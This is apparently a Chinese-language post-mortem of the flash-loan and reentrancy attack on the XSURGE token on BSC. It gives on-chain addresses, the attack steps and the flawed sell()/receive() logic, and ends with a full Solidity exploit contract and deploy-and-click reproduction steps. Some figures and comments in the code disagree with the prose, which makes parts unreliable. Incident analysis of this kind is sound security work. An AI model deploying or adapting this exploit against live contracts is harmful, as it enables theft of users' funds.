








## 概述
---
8 月 17 日,BSC上的XSURGE被攻击。
攻击者利用`闪电贷+重入攻击`反复低买高卖，
导致项目损失约500万美金。
---
## 事件分析


* 攻击合约
```
0x59c686272e6f11dC8701A162F938fb085D940ad3
```

* 攻击交易

```
0x7e2a6ec08464e8e0118368cb933dc64ed9ce36445ecf9c49cacb970ea78531d2
```


* 被攻击合约同时也是SurgeToekn合约地址

```
0xE1E1Aa58983F6b8eE8E4eCD206ceA6578F036c21
```


#### 攻击流程


* 第一步 从Pancake 通过闪电贷借出 10000 个WBNB

> 由于`PancakeSwap` 借鉴了`Uniswap V2`的代码,所以同样拥有`flashSwap`的功能

> 虽然Pancake的官方文档并没有提及这一功能,但不代表它没有


* 第二步 把10000个WBNB换成10000个BNB

> 如果WBNB和WETH10一样提供`flashMint`就更方便了


* 循环攻击SurgeToken合约(共6次)



* 调用WBNB的`Deposit`,把赚到的`22191`个BNB存在在WBNB合约中



* 调用WBNB的`transfer`,把`10030`个WBNB归还给Pancake



* 从WBNB合约中`Withdrawal`,把`12161`个WBNB取出,完成攻击


---
## 问题代码

* `sell()` 函数中存在Low-level-call函数调用,虽然使用了`nonReentrant()`， 但无法防御其他函数被异常调用的攻击场景



* `purchase`函数在`receive()`中触发

## 复现方法

* 攻击合约代码

```
// SPDX-License-Identifier: Apache-2.0
pragma solidity =0.8.0;

interface IpancakePair{
    function swap(uint amount0Out, uint amount1Out, address to, bytes calldata data) external;
    
    function token0() external view returns (address);
    function token1() external view returns (address);
    
}

interface WBNB {

    function deposit() payable external;
    function withdraw(uint wad) external;
    function balanceOf(address account) external view returns (uint);
    function transfer(address recipient, uint amount) external returns (bool);
}


interface Token {
    function balanceOf(address account) external view returns (uint);
    function transfer(address recipient, uint amount) external returns (bool);
}

interface Surge{
    function sell(uint256 tokenAmount) external returns (bool);
    function balanceOf(address account) external view returns (uint256);
    function transfer(address recipient, uint256 amount) external  returns (bool);
}


contract  test{
    
    address private constant cake_Address = 0x0E09FaBB73Bd3Ade0a17ECC321fD13a19e81cE82;
    
    address private constant WBNB_Address = 0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c;
    
    address private constant Pancake_Pair_Address = 0x0eD7e52944161450477ee417DE9Cd3a859b14fD0;
    
    address public constant Surge_Address = 0xE1E1Aa58983F6b8eE8E4eCD206ceA6578F036c21;
    
    // 这里填你自己的测试地址
    address public wallet = 0x8F14c19ed3d592039D2F6aD372bd809228369D77;
    
    uint8 public time = 0;
    
    
    
    function Attack()external {
    
        // Brrow 100 WBNB
        bytes memory data = abi.encode(WBNB_Address, 10000*1e18);
        
        IpancakePair(Pancake_Pair_Address).swap(0,10000*1e18,address(this),data);
    
    }
    
    function pancakeCall(address sender, uint amount0, uint amount1, bytes calldata data) external{

        //把WBNB换成BNB
        WBNB(WBNB_Address).withdraw(WBNB(WBNB_Address).balanceOf(address(this)));
        
        // Buy
        (bool buy_successful,) = payable(Surge_Address).call{value: address(this).balance, gas: 40000}("");
        
        //循环6次
        Surge(Surge_Address).sell(Surge(Surge_Address).balanceOf(address(this)));
        Surge(Surge_Address).sell(Surge(Surge_Address).balanceOf(address(this)));
        Surge(Surge_Address).sell(Surge(Surge_Address).balanceOf(address(this)));
        Surge(Surge_Address).sell(Surge(Surge_Address).balanceOf(address(this)));
        Surge(Surge_Address).sell(Surge(Surge_Address).balanceOf(address(this)));
        Surge(Surge_Address).sell(Surge(Surge_Address).balanceOf(address(this)));
        Surge(Surge_Address).sell(Surge(Surge_Address).balanceOf(address(this)));
        
        //把所有BNB换成WBNB
        WBNB(WBNB_Address).deposit{value: address(this).balance}();

        //还给PancakeSwap 10300个WBNB
        Token(WBNB_Address).transfer(Pancake_Pair_Address, 10300*1e18);
        WBNB(WBNB_Address).transfer(wallet,WBNB(WBNB_Address).balanceOf(address(this)));
    }
    
    

    receive() external payable {
        
        if(msg.sender == Surge_Address && time < 6){
        
            (bool buy_successful,) = payable(Surge_Address).call{value: address(this).balance, gas: 40000}("");

            time++;

        }
    }
    
}

```

* 部署合约 点击Attack



* 成功


